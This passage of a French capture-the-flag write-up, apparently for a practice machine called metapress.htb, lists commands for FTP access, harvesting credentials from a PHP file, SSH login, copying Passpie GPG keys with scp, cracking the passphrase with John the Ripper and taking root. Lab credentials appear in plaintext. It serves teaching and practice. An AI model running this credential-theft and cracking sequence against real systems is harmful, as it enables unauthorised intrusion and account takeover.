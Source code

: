 ### 📂 Phase 4 : Accès FTP et pivoting SSH

```bash
# 1. Connexion FTP
ftp 10.10.11.186
# Login: metapress.htb
# Password: 9NYS_ii@FyL_p5M2NvJ

# 2. Énumération et téléchargement
ls -la
cd mailer
get send_email.php
exit

# 3. Analyse du fichier
cat send_email.php
# → Résultat: jnelson / Cb4_JmWM8zUZWMu@Ys

# 4. Connexion SSH
ssh jnelson@10.10.11.186
# Password: Cb4_JmWM8zUZWMu@Ys

# 5. Récupération du user flag
cat ~/user.txt
```

### 🔓 Phase 5 : Escalade de privilèges via Passpie

```bash
# 1. Énumération locale
ls -la ~
# → Découverte de .passpie/

# 2. Transfert des clés GPG
scp jnelson@10.10.11.186:/home/jnelson/.passpie/.keys ./keys

# 3. Extraction du hash GPG
gpg2john keys > keys.hash

# 4. Crackage de la passphrase
john --wordlist=/usr/share/wordlists/rockyou.txt keys.hash --format=gpg
# → Résultat: blink182
```

### 👑 Phase 6 : Obtention du root (sur la machine cible)

```bash
# 1. Export des mots de passe Passpie
passpie export ~/password.db
# Passphrase: blink182

# 2. Lecture du fichier exporté
cat ~/password.db
# → root password: p7qfAZt4_A1xo_0x

# 3. Connexion root
su root
# Password: p7qfAZt4_A1xo_0x

# 4. Récupération du root flag
cat /root/root.txt
```

---